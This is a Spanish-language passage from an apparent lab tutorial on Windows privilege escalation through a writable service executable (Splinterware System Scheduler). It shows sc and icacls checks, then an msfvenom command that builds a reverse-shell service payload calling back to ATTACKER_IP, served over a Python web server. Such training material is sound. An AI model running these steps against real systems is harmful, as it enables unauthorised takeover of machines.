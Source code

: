 ### Insecure Permissions on Service Executable

Si el ejecutable asociado con un servicio tiene permisos débiles que permiten a un atacante modificarlo o reemplazarlo, el atacante puede obtener los privilegios de la cuenta del servicio de manera trivial.

Para entender cómo funciona esto, veamos una vulnerabilidad encontrada en Splinterware System Scheduler. Para comenzar, consultaremos la configuración del servicio usando `sc`:

```shell-session
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

Podemos ver que el servicio instalado por el software vulnerable se ejecuta como svcuser1 y el ejecutable asociado al servicio está en formato `C:\Progra~2\System~1\WService.exe`. Luego procedemos a verificar los permisos del ejecutable:

```shell-session
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Y aquí tenemos algo interesante. El grupo `Everyone` tiene permisos de modificación (M) en el ejecutable del servicio. Esto significa que podemos simplemente sobrescribirlo con cualquier carga útil de nuestra preferencia y el servicio lo ejecutará con los privilegios de la cuenta de usuario configurada.

Generemos una carga útil de servicio exe usando msfvenom y la sirvamos a través de un servidor web Python:

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
